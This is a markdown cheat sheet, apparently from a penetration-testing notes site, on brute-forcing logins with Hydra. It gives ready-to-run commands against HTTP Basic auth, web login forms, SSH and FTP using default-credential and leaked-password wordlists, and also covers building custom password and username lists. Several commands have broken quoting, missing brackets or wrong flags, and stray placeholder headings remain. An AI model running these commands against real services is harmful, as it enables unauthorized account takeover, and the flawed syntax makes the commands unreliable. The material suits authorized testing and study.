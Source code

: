 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Basic HTTP Auth Forms Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module **http[s]-post-form**

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Pasword Brute Force

> NOTE: Try default usernames that are often used in admin pannels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Usefull Commands
The following commands can help if you want to create a personalised wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbres

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)


```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

# PLACEHOLDER

